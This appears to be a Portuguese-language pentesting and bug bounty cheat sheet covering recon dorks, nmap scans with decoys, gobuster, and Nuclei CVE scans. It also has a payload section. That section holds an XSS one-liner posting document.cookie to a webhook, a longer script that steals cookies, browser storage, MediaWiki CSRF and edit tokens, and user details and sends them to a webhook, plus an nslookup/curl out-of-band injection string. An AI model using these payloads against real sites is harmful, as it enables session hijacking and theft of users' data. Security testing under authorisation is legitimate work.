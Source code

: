 # Umas paradas que uso de vez em quando e gosto de deixar salvo pra lembrar

---

### Dorks & Descoberta
* **Encontrar Programas de VDP (Vulnerability Disclosure Program):**
    ```
    "Vulnerability Disclosure Program" VDP "site:uk -bugbount -hackerone -intigriti -bugcrowd -yeswehack"
    ```
* **Repositório de Google Dorks:**
    * [Dorks Faisalahmed](https://dorks.faisalahmed.me/)

### Escaneamento de Rede e Subdomínios
* **Nmap - Scan DNS para vazamento de informações:**
    ```bash
    # Verifica o servidor DNS (porta 53/UDP) por possíveis exposições de dados sensíveis.
    nmap -sU -p 53 --script=dns-nsid 10.129.2.48
    ```
* **Nmap - Scan Avançado:**
    ```bash
    # Scan com detecção de versão (-sV), usando decoys (D RND:2), múltiplos tipos de scan e user-agent customizado.
    nmap 10.129.4.84 -sV -D RND:2 -Pn -sS -sU --max-retries=2 --script-args http.useragent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36" -p-
    ```
* **Descoberta de Diretórios com Gobuster:**
    ```bash
    # Força bruta de diretórios com headers customizados de Host e Cookie.
    gobuster dir -u https://teste.com -w /usr/share/wordlists/dirb/common.txt  -t 50 -H 'Cookie: ASP.NET_SessionId=whvgzv2plsyzvnglugu2kxyc;' -k -x html,php,js,aspx,bat,txt,zip
    ```

### Extensões úteis para Browser
* `dotgit`
* `Wappalyzer`
* `Shodan`
* `DNSlytics`


## Análise de Vulnerabilidades

Ferramentas para escanear ativamente por falhas de segurança conhecidas.

* **Instalação do ZAP (Zed Attack Proxy):**
    ```bash
    # Uma ótima ferramenta para scan de aplicações web.
    sudo apt install zaproxy
    ```
* **Nuclei - Scan de CVEs em subdomínios:**
    ```bash
    # Encontra subdomínios, verifica quais estão ativos e roda um template específico do Nuclei.
    subfinder -all -d alvo.com -recursive | httpx | nuclei -nmhe -t ./nuclei-templates/http/cves/(CVE)/CVE-2025-0133.yaml
    ```
* **Nuclei - Scan geral de CVEs:**
    ```bash
    nuclei -t cves/ -u [http://alvo.com] -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
    ```
* **Nuclei - Scan focado em tecnologia (ex: Moodle):**
    ```bash
    nuclei -u [https://alvo.com]) -tags moodle
    ```


## Payloads & Exploração

Snippets de código para explorar vulnerabilidades como XSS, SSRF, etc.

### Cross-Site Scripting (XSS)

* **Payload XSS Simples para Roubo de Cookies:**
    ```html
    <img src="x" onerror="fetch('[https://webhook.site/085d7083-a25c-41c6-beb6-113d2b58e605](https://webhook.site/085d7083-a25c-41c6-beb6-113d2b58e605)', {method:'POST', body:'<cookie>='+document.cookie})">
    ```

* **Payload XSS Avançado para Exfiltração de Dados:**
    * Este script captura cookies, `localStorage`, `sessionStorage`, tokens específicos de MediaWiki e informações do usuário, enviando tudo para um webhook.
    ```javascript
    var data = {};
    data.cookie = document.cookie;
    data.localStorage = {};
    data.sessionStorage = {};
    data.mediawikiTokens = {};
    data.userInfo = {};

    // Capturar todos os dados do localStorage
    for(var i=0; i<localStorage.length; i++) {
        var key = localStorage.key(i);
        data.localStorage[key] = localStorage.getItem(key);
    }

    // Capturar todos os dados do sessionStorage
    for(var i=0; i<sessionStorage.length; i++) {
        var key = sessionStorage.key(i);
        data.sessionStorage[key] = sessionStorage.getItem(key);
    }

    // Tenta obter tokens do MediaWiki especificamente
    try {
        if(typeof mw != 'undefined' && mw.user && mw.user.tokens) {
            data.mediawikiTokens = {
                editToken: mw.user.tokens.get('editToken'),
                csrfToken: mw.user.tokens.get('csrfToken'),
                watchToken: mw.user.tokens.get('watchToken')
            };
        }
    } catch(e) {}

    // Informações do usuário
    try {
        if(typeof mw != 'undefined' && mw.config) {
            data.userInfo = {
                userName: mw.config.get('wgUserName'),
                userId: mw.config.get('wgUserId'),
                pageName: mw.config.get('wgPageName'),
                namespace: mw.config.get('wgCanonicalNamespace'),
                revisionId: mw.config.get('wgRevisionId'),
                articleId: mw.config.get('wgArticleId')
            };
        }
    } catch(e) {}

    // Envia os dados coletados para o webhook
    fetch('[https://webhook.site/ce0f8999-b412-490d-aa38-f94652be63b0](https://webhook.site/ce0f8999-b412-490d-aa38-f94652be63b0)', {
        method: 'POST',
        headers: {'Content-Type': 'application/json'},
        body: JSON.stringify(data)
    });
    ```

### Out-of-Band (OOB)

* **Payload OOB para testar em Headers (Blind SSRF, etc):**
    * Tenta forçar uma resolução DNS e uma requisição HTTP para um domínio externo. Útil para injetar em cabeçalhos como `User-Agent`, `Referer`, `X-Forwarded-For`, etc.
    ```bash
    # :r: é um placeholder para o valor que será injetado
    :r:nslookup -q=cname hitvibmacavit642a1.bxss.me|curl hitvibmacav
    ```

## Ferramentas & Recursos Adicionais

Links para repositórios e ferramentas úteis.

- [SHCheck - Shell/Header Vulnerability Checker](https://github.com/santoru/shcheck)
- [Converter imagem em link pub](https://pngup.com/)

